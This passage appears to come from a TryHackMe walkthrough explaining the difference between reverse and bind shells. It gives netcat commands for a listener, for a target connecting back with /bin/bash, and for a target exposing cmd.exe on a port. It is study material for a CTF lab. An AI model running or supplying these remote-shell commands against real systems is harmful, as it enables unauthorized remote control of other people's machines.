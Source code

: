 As a general rule, reverse shells are easier to execute and debug, however, we will cover both examples below. Don't worry too much about the syntax here: we will be looking at it in upcoming tasks. Instead notice the difference between reverse and bind shells in the following simulations.

* *Reverse Shell example:

Let's start with the more common reverse shell.

Nine times out of ten, this is what you'll be going for -- especially in CTF challenges like those of TryHackMe.

Take a look at the following image. On the left we have a reverse shell listener -- this is what receives the connection. On the right is a simulation of sending a reverse shell. In reality, this is more likely to be done through code injection on a remote website or something along those lines. Picture the image on the left as being your own computer, and the image on the right as being the target.

On the attacking machine:

`sudo nc -lvnp 443`

On the target:

`nc <LOCAL-IP> <PORT> -e /bin/bash`

![image](https://github.com/AChen1719/tryhackme-walkthrough/assets/99749834/40e1c194-757b-42cd-bf89-c69a49967241)

Notice that after running the command on the right, the listener receives a connection. When the whoami command is run, we see that we are executing commands as the target user. The important thing here is that we are listening on our own attacking machine, and sending a connection from the target.

* * Bind Shell example:
Bind shells are less common, but still very useful.

Once again, take a look at the following image. Again, on the left we have the attacker's computer, on the right we have a simulated target. Just to shake things up a little, we'll use a Windows target this time. First, we start a listener on the target -- this time we're also telling it to execute `cmd.exe`. Then, with the listener up and running, we connect from our own machine to the newly opened port.

On the target:

`nc -lvnp <port> -e "cmd.exe"`

On the attacking machine:

`nc MACHINE_IP <port>`

![image](https://github.com/AChen1719/tryhackme-walkthrough/assets/99749834/b4c501b5-5333-4c54-b0ca-bddeffa78867)

As you can see, this once again gives us code execution on the remote machine. Note that this is not specific to Windows.

The important thing to understand here is that we are listening on the target, then connecting to it with our own machine.

The final concept which is relevant in this task is that of interactivity. Shells can be either interactive or non-interactive. 
     
